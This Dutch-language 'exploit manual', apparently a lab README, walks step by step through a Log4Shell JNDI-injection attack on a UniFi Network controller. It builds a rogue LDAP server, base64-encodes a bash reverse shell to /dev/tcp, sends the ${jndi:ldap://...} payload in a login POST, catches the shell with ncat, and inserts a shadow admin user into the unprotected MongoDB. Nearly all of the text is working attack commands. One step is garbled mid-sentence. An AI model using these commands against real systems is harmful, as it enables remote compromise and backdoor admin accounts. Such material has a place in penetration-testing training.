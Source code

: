 # Exploit manual

1. Download Maven door het commando **sudo apt install maven -y**.

2. Met het commando **git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package** downloaden we rogue-jndi. Dit is een kwaadaardige LDAP server voor JNDI injection attacks.

3. We bouwen een reverse shell en encoding die naar Base64 met het commando **echo 'bash -c bash -i >&/dev/tcp/192.168.69.11/4444 0>&1' | base64**

Het kan zijn dat het IP adres van de aanvallende host nog gecontroleerd en eventueel aangepast moet worden.

4. De output van het vorige commando gebruiken we in het volgende commando. 

**java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,*| Base64 output vorig commando |*}|{base64,-d}|{bash,-i}" --hostname "192.168.69.12"**

5. Daarna creëren we de effectieve reverse shell met het commando

**curl -i -s -k -X POST -H $'Host: 192.168.69.11:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://192.168.69.12:4444/o=tomcat}\",\"strict\":true}' $'https://192.168.69.11:8443/api/login'**

6. We starten een netcat listener. De UniFi Network controller zou de payload van de rogue-jndi LDAP-server en krijgt een callback. We doen dit met het commando **ncat -lvnp 4444**

7. We hebben nu een reverse shell maar zonder root access. Het blijkt echter dat de Mongo DB server niet beveiligd is waardoor we hier een shadow admin kunnen aanmaken met toegang tot de UniFi controller.

We installeren de whois package om toegang te hebben tot mkpasswd met het commando **sudo apt install whois**

8. Daarna kunnen we een hash aanmaken met het commando **mkpasswd -m sha-512 wachtwoord**

Deze hash kunnen we dan gebruiken om in MongoDB een gebruiker aan te maken.

9. We maken een UniFi gebruiker aan met het commando **mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "<PASSWORD-HASH>" })'**